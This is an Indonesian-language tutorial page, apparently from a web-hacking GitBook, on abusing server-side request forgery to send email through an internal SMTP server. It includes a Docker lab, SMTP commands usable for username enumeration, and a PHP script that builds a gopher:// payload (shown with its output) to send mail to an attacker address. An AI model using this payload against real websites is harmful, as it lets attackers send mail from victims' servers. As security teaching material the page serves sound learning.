 # SSRF And SMTP

SSRF bisa dimanfaatkan untuk berinteraksi dengan SMTP, sehingga attacker bisa mengirim email melalui server SMTP dari website yang _vulnerable_ SSRF.

![Skema dasar serangan SSRF And SMTP](../../.gitbook/assets/ssrf_smtp-1.png)

### Lab Setup

Email Server menggunakan `sendmail` dan di_deploy_ menggunakan `docker`.

```bash
git clone https://github.com/rhamaa/Web-Hacking-Lab.git
cd Web-Hacking-Lab/SSRF_SMTP_LAB
docker build -t ssrf_smtp_lab .
docker run -d --rm -p 8022:80 ssrf_smtp_lab
```

![Halaman index lab](../../.gitbook/assets/lab.JPG)

\*\* Port HTTP sengaja diforward ke 8022 karena memang di Host Server port 80 nya sudah ada service yang berjalan.

{% hint style="info" %}
Lab tersebut hanya menggunakan setingan _default_ sendmail, mungkin tidak akan bisa mengirim \(_Outgoing Mail_\) pesan ke provider-provider email tertentu seperti Gmail.
{% endhint %}

### SMTP \(Simple Mail Transfer Protocol\) 101

SMTP berfungsi untuk mengirim email dari SMTP server pengirim ke SMTP server penerima email, secara default port SMTP adalah 25, selain itu SMTP mempunyai port lain yaitu 587 MSA \(_message submission agent_\), bedanya dengan port 25 adalah port 587 membutuhkan Autentikasi SMTP. Port 587 ini lebih sering digunakan karena tergolong lebih aman dibandingkan port 25.

#### Beberapa Command SMTP

| **Command** | **Deskripsi** |
| :--- | :--- |
| `HELO <FQDN>` | Say Hello ke SMTP server agar saling mengenal |
| `MAIL FROM <Your_Email>` | Set Email pengirim |
| `RCPT TO <Receiver_Email>` | Set Email tujuan |
| `DATA` | Mulai menulis isi email, lalu akhiri dengan "." untuk mengirim |
| `VRFY <username>` | Melakukan verifikasi mailbox user di local host |
| `EXPN <username>` | \( sama seperti VRFY \) |
| `QUIT` | Keluar dari SMTP |

![Contoh penggunaan command SMTP](../../.gitbook/assets/smtp_command_telnet.JPG)

{% hint style="info" %}
**Trivia :** _Command_ RCPT TO, VRFY, dan EXPN dapat digunakan untuk melakukan _Username Enumeration_ yang sangat berguna saat melakukan _pentesting_.
{% endhint %}

### SMTP Hates HTTP

Seperti yang dikatakan **Orange Tsai** dalam presentasinya bahwa "_SMTP Hates HTTP_" karena memang HTTP tidak bisa melakukan _smuggling_ ke SMTP.

Pada `sendmail` terdapat changelog yang mengatakan akan menolak apabila paketnya di awali dengan _GET_, _POST_, _CONNECT,_ atau _USER_

```text
8.14.0/8.14.0   2007/01/31  
  ....
  Try to deal with open HTTP proxies that are used to send spam
    by recognizing some commands from them. If the first command
    from the client is GET, POST, CONNECT, or USER, then the
    connection is terminated immediately.
```

Sangat mustahil untuk melakukan _smuggling_ HTTP ke SMTP, karena memang pasti akan ditolak, tetapi protokol Gopher dan HTTPS bisa melakukan _smuggling_ ke protokol SMTP sehingga bisa menjadi solusi terhadap permasalahan tersebut.

{% hint style="info" %}
**HTTPS** tidak mendukung _multiline_ _request_ seperti gopher, oleh karena itu dibutuhkan celah _CRLF Injection_ apabila ingin melakukan _querying_ SMTP melalui HTTPS
{% endhint %}

### Querying SMTP Melalui Gopher

Syntax Gopher untuk Querying SMTP seperti dibawah ini.

`gopher://<Intranet_IP>:25/_<Command_SMTP>`

_Script_ di bawah ini bisa digunakan untuk meng-automasi pembuatan _payload_.

```php
<?php
        $commands = array(
                'HELO target.0xff.web.id',
                'MAIL FROM: <root@target.0xff.web.id>',
                'RCPT TO: <attacker@email.com>',
                'DATA',
                'Subject: SSRF HERE',
                'SSRF AND SMTP',
                '.'
        );

        $payload = implode('%0A', $commands); // memisahkan tiap command dengan newline

        echo 'gopher://127.0.0.1:25/_' . $payload;
?>
```

{% hint style="info" %}
Tanda \_ \(_**underscore**_\) setelah &lt;port&gt;:/ untuk mewakili _gophertype_, sehingga harus disertakan, karena apabila tidak disertakan karakter payload akan terpotong 1 karakter, misal payloadnya adalah _HelloWorld_, apabila tanda \_ tidak disertakan payloadnya akan menjadi _ElloWorld_.
{% endhint %}

#### Percobaan Serangan

```bash
$ php payload.php
gopher://127.0.0.1:25/_HELO target.0xff.web.id%0AMAIL FROM: <root@target.0xff.web.id>%0ARCPT TO: <attacker@email.com>%0ADATA%0ASubject: SSRF HERE%0ASSRF AND SMTP%0A.
```

Masukan _payload_ yang sudah di-_generate_ ke web target.

![](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-48.png)

![Pesan setelah payload disubmit](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-03.png)

Terdapat email dari server target masuk.

![Email Masuk](../../.gitbook/assets/inbox.jpg)

### Referensi

[https://tools.ietf.org/html/rfc4266](https://tools.ietf.org/html/rfc4266) [https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs](https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs) [http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/](http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/) [https://hackerone.com/reports/115748](https://hackerone.com/reports/115748)

